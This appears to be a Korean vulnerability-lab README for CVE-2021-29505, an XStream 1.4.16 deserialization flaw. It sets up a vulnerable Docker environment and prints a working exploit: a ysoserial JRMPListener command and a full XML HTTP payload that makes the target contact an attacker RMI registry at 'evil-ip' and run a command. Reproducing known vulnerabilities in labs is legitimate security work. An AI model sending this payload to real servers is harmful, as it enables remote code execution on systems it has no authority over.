

# CVE-2021-29505

XStream은 object들을 시리얼화하거나 되돌리는 간단한 라이브러리임.

XStream은 역시리얼화 취약점을 방어하는 데 사용되는 XML 텍스트를 구문 분석할 때 차단 목록 메커니즘을 사용하지만 1.4.16 및 이전 버전에서는 차단 목록이 불완전하며 공격자가 `sun.rmi.registry.RegistryImpl_Stub` 을 사용하여 RMI 요청을 만들고 마침내 임의 실행을 할 수 있음.

## 취약한 환경

Springboot + XStream 1.4.16 서버 시작

```
docker compose up -d
```

일단 환경이 시작되면, 잘 시작되는지 테스트하기 위해 `http://your-ip:8080`로 request를 보낼 수 있음.


## POC

먼저, 악한 서버 위에 악성의 RMI 레지스트리를 [ysoserial](https://github.com/frohoff/ysoserial)의 JRMPListener를 이용해서 시작해야 함.

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

이 RMI 레지스트리는 request를 받고 악성의 시리얼화된 object(`CommonsCollection6` 가젯으로 만들어진)를 리턴함.

그리고 CVE-2021-29505의 XML POC을 보내고 **evil-ip**를 악한 RMI 레지스트리의 주소로 교체함

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

악성의 RMI registry 는 RMI request를 성공적으로 받음.


Enter into the XStream container, ``touch /tmp/success``를 XStream 컨테이너에 입력하면 성공적으로 실행됨.



[official website][1]로부터의 POC가 틀림, 사용하면 안됨.

[1]: https://x-stream.github.io/CVE-2021-29505.html
